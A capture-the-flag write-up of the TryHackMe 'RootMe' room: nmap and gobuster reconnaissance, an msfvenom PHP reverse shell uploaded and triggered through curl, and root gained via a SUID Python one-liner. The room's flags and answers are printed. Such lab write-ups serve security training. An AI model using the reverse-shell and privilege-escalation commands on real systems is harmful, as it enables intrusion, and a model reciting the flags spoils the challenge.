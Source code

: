 
---
---

<div align="center">

# TryHackMe RootMe


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png" alt="THM RootMe" width="220px" height="220px" style="margin-right: 85px;">
<img src="https://assets.tryhackme.com/img/THMlogo.png" alt="THM Logo" width="250px" height="150px" style="margin-bottom: 50px;">

<br>

🔗 [Click here to access the TryHackMe room](https://tryhackme.com/room/rrootme)

<br>

</div>


## IP Addresses:

* ### Target/Victim Machine
	```
	10.10.188.49 (Ubuntu 18.04.4 LTS)
	```

* ### Attacker Machine
	```
	10.17.35.235 (Ubuntu 23.10)
	```


<br>

## Reconnaissance:

* ### Nmap Scan

	> nmap -sV 10.10.188.49 -o nmap.log

	```
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1
	80/tcp open  http    Apache httpd 2.4.29
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

* ### Gobuster Scan

	> gobuster dir -u 10.10.188.49 -w ~/tools/wordlists/dirb/common.txt -o gobuster.log

	```
	/.hta                 (Status: 403) [Size: 277]
	/.htpasswd            (Status: 403) [Size: 277]
	/.htaccess            (Status: 403) [Size: 277]
	/css                  (Status: 301) [Size: 310]
	/index.php            (Status: 200) [Size: 616]
	/js                   (Status: 301) [Size: 309]
	/panel                (Status: 301) [Size: 312]
	/server-status        (Status: 403) [Size: 277]
	/uploads              (Status: 301) [Size: 314]
	```


<br>

## THM Questions (Task 1):

* _Q1_: Scan the machine, how many ports are open? <br> _A_: `2`
* _Q2_: What version of Apache is running? <br> _A_: `2.4.29`
* _Q3_: What service is running on port 22? <br> _A_: `ssh`
* _Q4_: What is the hidden directory? <br> _A_: `/panel/`


<br>

## Attempting to gain a shell:

* ### Payload creation (PHP Reverse Shell)

	> msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o shell.php5

* ### Listening to connection on msfconsole

	> msfconsole

	> use exploit/multi/handler

	> set payload php/reverse_php

	> set LHOST tun0

	> exploit

* ### Executing reverse shell on the server

	> curl 10.10.188.49/uploads/shell.php5


Shell obtained successfully with user `www-data`


<br>

## USER.TXT:

* ### Finding

	> find / -name user.txt 2>/dev/null

	```
	/var/www/user.txt
	```

* ### Reading

	> cat /var/www/user.txt

	```
	THM{y0u_g0t_a_sh3ll}
	```


<br>

## THM Questions (Task 2):

* _Q1_: user.txt <br> _A_: `THM{y0u_g0t_a_sh3ll}`


<br>

## Attempting privilege escalation:

* ### linPEAS.sh scan

	`/usr/bin/python` is found to be having some weird SUID permissions, and hence a potential PrivEsc vector

* ### Found Python SUID exploitation on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

	> /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Root access gained successfully!


<br>

## ROOT.TXT:

* ### Finding

	> find / -name root.txt 2>/dev/null

	```
	/root/root.txt
	```

* ### Reading

	> cat /root/root.txt

	```
	THM{pr1v1l3g3_3sc4l4t10n}
	```


<br>

## THM Questions (Task 3):

* _Q1_: Search for files with SUID permission,, which file is weird? <br> _A_: `/usr/bin/python`
* _Q2_: root.txt <br> _A_: `THM{pr1v1l3g3_3sc4l4t10n}`


<br>

---
---

<div align="center">

💻 Created by [Jayaditya Dev](https://tryhackme.com/p/jayadityadev)

🚀 Find me on [GitHub](https://github.com/jayadityadev), [LinkedIn](https://www.linkedin.com/in/jayadityadev26/) and [X](https://twitter.com/jayadityadev)

</div>

---
---